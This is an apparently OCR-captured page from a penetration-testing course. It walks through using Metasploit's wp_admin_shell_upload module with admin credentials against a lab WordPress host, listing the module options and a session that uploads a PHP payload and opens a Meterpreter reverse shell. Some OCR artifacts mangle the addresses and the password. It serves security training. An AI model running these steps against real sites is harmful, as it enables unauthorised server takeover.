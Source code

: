 ## Automating WordPress Exploitation

We can use the Metasploit Framework (MSF) to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver.

We can quickly start `MSF` by issuing the following command:

#### Starting Metasploit Framework

```shell
p3ta@htb[/htb]$ msfconsole
```

To obtain the reverse shell, we can use the `wp_admin_shell_upload` module. We can easily search for it inside `MSF`:

#### MSF Search

```shell
msf5 > search wp_admin Matching Modules ================ # Name Disclosure Date Rank Check Description - ---- --------------- ---- ----- ----------- 0 exploit/unix/webapp/wp_admin_shell_upload 2015-02-21 excellent Yes WordPress Admin Shell Upload
```

The number `0` in the search results represents the ID for the suggested modules. From here on, we can specify the module by its ID number to save time.

#### Module Selection

```shell
msf5 > use 0 msf5 exploit(unix/webapp/wp_admin_shell_upload) >
```

#### Module Options

Each module offers different settings options that we can use to assign precise specifications to `MSF` to ensure the attack's success. We can list these options by issuing the following command:

#### List Options

```shell
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options Module options (exploit/unix/webapp/wp_admin_shell_upload): Name Current Setting Required Description ---- --------------- -------- ----------- PASSWORD yes The WordPress password to authenticate with Proxies no A proxy chain of format type:host:port[,type:host:port][...] RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>' RPORT 80 yes The target port (TCP) SSL false no Negotiate SSL/TLS for outgoing connections TARGETURI / yes The base path to the wordpress application USERNAME yes The WordPress username to authenticate with VHOST no HTTP server virtual host Exploit target: Id Name -- ---- 0 WordPress
```

## Exploitation

After using the `set` command to make the necessary modifications, we can use the `run` command to execute the module. If all of our parameters are set correctly, it will spawn a reverse shell on the target upon execution.

#### Set Options

```shell
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020 msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8 msf5 exploit(unix/webapp/wp_admin_shell_upload) > run [*] Started reverse TCP handler on 10.10.16.8z4444 [*] Authenticating with WordPress using admin:Winter202@... [+] Authenticated with WordPress [*] Uploading payload... [*] Executing the payload at /wp—content/plugins/YtyZGFIhax/uTvAAKrAdp.php... [*] Sending stage (38247 bytes) to blog.inlanefreight.com [*] Meterpreter session 1 opened [+] Deleted uTvAAKrAdp.php meterpreter > getuid Server username: www—data (33)
```